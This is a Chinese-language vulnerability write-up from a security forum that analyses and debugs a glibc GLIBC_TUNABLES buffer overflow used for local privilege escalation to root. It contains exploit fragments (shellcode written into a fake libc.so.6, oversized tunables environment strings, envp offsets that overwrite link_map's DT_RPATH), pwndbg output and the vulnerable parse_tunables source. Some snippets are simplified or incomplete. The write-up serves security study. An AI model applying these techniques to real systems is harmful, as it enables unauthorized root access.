








# 一次glibc 提权漏洞的分析与调试 - 先知社区

一次glibc 提权漏洞的分析与调试

- - -

# 漏洞版本

glibc 2.35-0ubuntu3 (aarch64)

glibc 2.36-9+deb12u2 (amd64)

# 漏洞利用

## exp关键代码

```plain
with open(hax_path["path"] + b"/libc.so.6", "wb") as fh:
        fh.write(libc_e.d[0:__libc_start_main])
        fh.write(shellcode)
        fh.write(libc_e.d[__libc_start_main + len(shellcode) :])
```

**exp代码思路**

该漏洞发生在 GLIBC\_TUNABLES 环境变量处理过程中，可能存在缓冲区溢出漏洞。  
通过修改 GLIBC\_TUNABLES 的值来替换 libc 的加载路径，从而加载自己修改过的恶意库。  
找到一个合适的栈地址来覆盖原始的 libc 加载路径  
使用 ASLR 关闭的方式来尝试利用该漏洞

## 调试

**test.c**

```plain
#include <stdio.h>

unsigned long ptr = -0x18ULL;

int main(int argc, char *argv[])
{
    printf("test");
    return 0;
}
```

**环境变量**

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void *__minimal_malloc(size_t size) {
    return malloc(size);
}

int main() {
    char fill[0xd00];
    const char *prefix = "GLIBC_TUNABLES=glibc.malloc.mxfast=";
    strcpy(fill, prefix);

    size_t prefixLength = strlen(prefix);
    for (size_t i = prefixLength; i < sizeof(fill) - 1; i++) {
        fill[i] = 'A';
    }
    fill[sizeof(fill) - 1] = '\0';
    void *allocatedMemory = __minimal_malloc(0xd00 + 1);
    free(allocatedMemory);

    return 0;
}
```

```plain
RAX  0x7f4109f8f2e0 ?— 0x0  
pwndbg> vmmap
0x7f4109f8c000     0x7f4109f90000 rw-p     4000 37000  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
> hex(0x7f4109f8f2e0 + 0xd01)
'0x7f4109f8ffe1'
> hex(0x7f4109f90000 - 0x7f4109f8ffe1)
'0x1f'
```

如果在程序的后续部分，通过 `malloc` 或其他内存分配函数再次请求超过剩余内存大小（0x1f 字节）的内存，系统可能会选择使用 `mmap` 来映射一个新的内存区域，以满足这个较大的分配请求。

**再次设置环境变量**

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void* __minimal_malloc(size_t size) {
    // 实现 __minimal_malloc 的代码，这里简单地使用标准库的 malloc 作为示例
    return malloc(size);
}
int main() {
    char *payload = (char*)__minimal_malloc(PAYLOAD_SIZE);

    const char *prefix = "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=";
    strcpy(payload, prefix);

    size_t prefixLength = strlen(prefix);
    for (size_t i = prefixLength; i < PAYLOAD_SIZE - 1; i++) {
        payload[i] = 'B';
    }
    payload[PAYLOAD_SIZE - 1] = '\0';
    free(payload);
    return 0;
}
```

```plain
*RAX  0x7f4109f52000 ?— 0x0     # malloc的返回值
pwndbg> vmmap
  0x7f4109f52000     0x7f4109f54000 rw-p     2000 0      [anon_7f4109f52]
> hex(0x7f4109f52000 + 0x100)
'0x7f4109f52100'
```

如此，当再次申请内存，调用`__minimal_calloc`

```plain
pwndbg> b *(_dl_new_object+109)
pwndbg> c
   0x7f4908e899fd <_dl_new_object+109>     call   qword ptr [rip + 0x2c06d]     <__minimal_calloc>
pwndbg> ni
*RAX  0x7f4908e74c40 ?— 0x0
```

查看结构

```plain
pwndbg> b *(_dl_new_object+115)
pwndbg> c
   0x7ffaa8c249fd <_dl_new_object+109>: call   QWORD PTR [rip+0x2c06d]        # 0x7ffaa8c50a70 <__rtld_calloc> # __minimal_calloc
=> 0x7ffaa8c24a03 <_dl_new_object+115>: mov    r14,rax
pwndbg> p *((struct link_map *) $rax)
$1 = {
  l_addr = 4774451407232463713,
  l_name = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>,
  l_ld = 0x4242424242424242,
  l_next = 0x4242424242424242,
  l_prev = 0x4242424242424242,
  l_real = 0x4242424242424242,
  l_ns = 4774451407313060418,
  l_libname = 0x4242424242424242,
  l_info = {0x4242424242424242 <repeats 17 times>, 0x696c673a42424242, 0x6f6c6c616d2e6362, 0x74736166786d2e63, 0x3d, 0x0 <repeats 24 times>, 0x2e6362696c673a00, 0x6d2e636f6c6c616d, 0x3d7473616678, 0x0 <repeats 29 times>},
```

成功覆盖`struct link_map`

### `link_map->l_info[DT_RPATH]`成员变量

定位到

`elf/dl-load.c`文件

`_dl_init_paths`函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224141520-d0a2520c-a223-1.png)

#### `DT_RPATH`

`DT_RPATH` 是 ELF（可执行和可共享对象）文件中的一项动态链接器标签（Dynamic Section Entry）。它用于指定运行时搜索共享库时应该查找的目录路径。这可以影响动态链接器在加载可执行文件时查找共享库的行为。

具体来说，`DT_RPATH` 包含一个以空字符（'\\0'）分隔的目录路径列表，告诉动态链接器在搜索共享库时应该优先查找这些目录。这个路径列表可以是绝对路径或相对路径。

在使用 `DT_RPATH` 时，有一些需要注意的事项：

1.  **`DT_RPATH`**​ **的优先级：** 如果同时存在 `DT_RPATH` 和 `DT_RUNPATH`，动态链接器会优先使用 `DT_RUNPATH`。如果两者都不存在，动态链接器会使用系统默认的搜索路径。
2.  **`DT_RPATH`**​ **的格式：** 路径列表以字符串数组的形式存储在动态链接器标签中，每个路径之间用空字符分隔，最后一个路径后面要跟一个额外的空字符作为终止符。
3.  **相对路径的解析：** 如果路径是相对路径，动态链接器会在执行程序的目录中查找。
4.  **动态修改：** 在某些情况下，可以使用工具如 `patchelf` 来动态修改 ELF 文件的 `DT_RPATH` 条目。

```plain
**具体来说，这段代码的作用是将原始的 libc 库的加载路径修改为攻击者指定的路径，然后使用这个修改后的路径来加载恶意的库。攻击者可以通过修改**​ `** link_map->l_info[DT_RPATH] **`​**来控制这个路径，从而实现命令执行的目的。**
```

# 直接利用

测试一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224141530-d6aaa046-a223-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224141541-dd748aea-a223-1.png)

留有一部分区域置 0，到`xb8`

```plain
for (int i=2;i<ENVP_SIZE-1;i++)
  envp[i] = "";
envp[0x20 + 0xb8] = "\x28\x40\x40";
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224141616-f2014764-a223-1.png)

地址`0x7fca03d3c2b3`

大于`0xb8`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224141625-f739b0d6-a223-1.png)

计算以下，需要让`link_map = 0x7f94440ce3fb`

得出

`envp[0x25 + 0xb8] = "\x28\x40\x40";`

此时的内存结构

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224141634-fd0e04b2-a223-1.png)

堆

```plain
#include <string.h>

#define PADDING_SIZE 50  // 根据实际情况定义 PADDING_SIZE
#define ENVP_SIZE 10     // 根据实际情况定义 ENVP_SIZE

int main() {
    char padding[PADDING_SIZE - 3];

    const char *prefix = "GLIBC_TUNABLES=";
    strcpy(padding, prefix);

    size_t prefixLength = strlen(prefix);
    for (size_t i = prefixLength; i < PADDING_SIZE - 4; i++) {
        padding[i] = 'D';
    }
    padding[PADDING_SIZE - 4] = '\0';

    char *envp[ENVP_SIZE];
    envp[ENVP_SIZE - 2] = strdup(padding);
    free(envp[ENVP_SIZE - 2]);

    return 0;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224141643-0241dc60-a224-1.png)

退出 gdb，直接执行 exp

获取到 root 权限。

# 漏洞代码

根据NVD漏洞介绍，首先定位文件`elf/dl-tunables.c`

定位到函数`parse_tunables`

```plain
static void
parse_tunables (char *tunestr, char *valstring)
{
  if (tunestr == NULL || *tunestr == '\0')
    return;

  char *p = tunestr;
  size_t off = 0;

  while (true)
    {
      char *name = p;
      size_t len = 0;

      /* First, find where the name ends.  */
      while (p[len] != '=' && p[len] != ':' && p[len] != '\0')
    len++;

      /* If we reach the end of the string before getting a valid name-value
     pair, bail out.  */
      if (p[len] == '\0')
    {
      if (__libc_enable_secure)
        tunestr[off] = '\0';
      return;
    }

      /* We did not find a valid name-value pair before encountering the
     colon.  */
      if (p[len]== ':')
    {
      p += len + 1;
      continue;
    }

      p += len + 1;

      /* Take the value from the valstring since we need to NULL terminate it.  */
      char *value = &valstring[p - tunestr];
      len = 0;

      while (p[len] != ':' && p[len] != '\0')
    len++;

      /* Add the tunable if it exists.  */
      for (size_t i = 0; i < sizeof (tunable_list) / sizeof (tunable_t); i++)
    {
      tunable_t *cur = &tunable_list[i];

      if (tunable_is_name (cur->name, name))
        {
          /* If we are in a secure context (AT_SECURE) then ignore the
         tunable unless it is explicitly marked as secure.  Tunable
         values take precedence over their envvar aliases.  We write
         the tunables that are not SXID_ERASE back to TUNESTR, thus
         dropping all SXID_ERASE tunables and any invalid or
         unrecognized tunables.  */
          if (__libc_enable_secure)
        {
          if (cur->security_level != TUNABLE_SECLEVEL_SXID_ERASE)
            {
              if (off > 0)
            tunestr[off++] = ':';

              const char *n = cur->name;

              while (*n != '\0')
            tunestr[off++] = *n++;

              tunestr[off++] = '=';

              for (size_t j = 0; j < len; j++)
            tunestr[off++] = value[j];
            }

          if (cur->security_level != TUNABLE_SECLEVEL_NONE)
            break;
        }

          value[len] = '\0';
          tunable_initialize (cur, value);
          break;
        }
    }

      if (p[len] != '\0')
    p += len + 1;
    }
}
```

调试查找调用该函数的函数

找到`__tunables_init`函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224141656-0a0fa8be-a224-1.png)

## 漏洞形成过程分析

存在一个名为 GLIBC\_TUNABLES 的环境变量。

该环境变量的值使用 tunables\_strdup 函数进行处理，类似于 strdup 函数，但是因为此时 libc 还没有初始化完成，所以使用的是 \_\_minimal\_malloc。

接下来调用 parse\_tunables 函数来处理 GLIBC\_TUNABLES 环境变量的值。

libc 中有一个名为 tunable\_list 的表，可以通过 gdb 输出这个表的信息。

当 \_\_libc\_enable\_secure 启用且安全等级不是 TUNABLE\_SECLEVEL\_SXID\_ERASE 时，会对环境变量进行一些处理，而这个处理导致缓冲区溢出漏洞。
